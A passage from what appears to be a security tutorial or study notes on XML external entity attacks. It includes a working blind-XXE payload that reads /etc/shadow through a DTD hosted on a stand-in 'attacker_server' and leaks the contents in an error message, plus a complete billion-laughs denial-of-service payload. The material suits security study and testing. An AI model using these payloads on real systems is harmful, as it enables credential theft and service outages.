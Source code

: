 #### <font color="red">NOTE:</font>Notice that in this attack, we used only parameter entities and did not use external entities at all! If the parser blocks external entities or limits the referencing of entities to protect against XXE, you can use this technique as well. However, this strategy can exfiltrate only a single line of the target file, because the newline character (\n) within target files will interrupt the outbound URL and may even cause the HTTP request to fail.

#### An easier way to exfiltrate data via a blind XXE is by forcing the parser to return a descriptive error message. For example, you can induce a File Not Found error by referencing a nonexistent file as the value of an external entity. Your external DTD can be rewritten as follows:

	<!ENTITY % file SYSTEM "file:///etc/shadow">
	<!ENTITY % ent "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/?%file;'>">
	%ent;
	%error;
#### otice that I included the contents of /etc/shadow in the URL parameter of the nonexistent filepath. Then you can submit the same payload to the target to trigger the attack:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
	%xxe;
	]>

#### This malicious DTD will cause the parser to deliver the desired file contents as a File Not Found error:

	java.io.FileNotFoundException: file:///nonexistent/FILE CONTENTS OF /etc/shadow
#### <font color="red">Performin Denial of service attack</font>:
#### Another potential way that attackers can exploit XML vulnerabilities is to launch denial-of-service attacks, which disrupt the machine so that legitimate users cannot access its services.
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ELEMENT example ANY>
	<!ENTITY lol "lol">
	<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
	<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
	<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
	<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
	<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
	<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
	<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
	<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
	<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
	]>
	<example>&lol9;</example>
#### This payload embeds entities within entities, causing the XML parser to recursively dereference entities to get to the root entity value lol. Each lol9 entity would be expanded into 10 lol8 values, and each of those would become 10 lol7s, and so on. Eventually, a single lol9 will be expanded into one billion lols. This will overload the memory of the XML parser, potentially causing it to crash.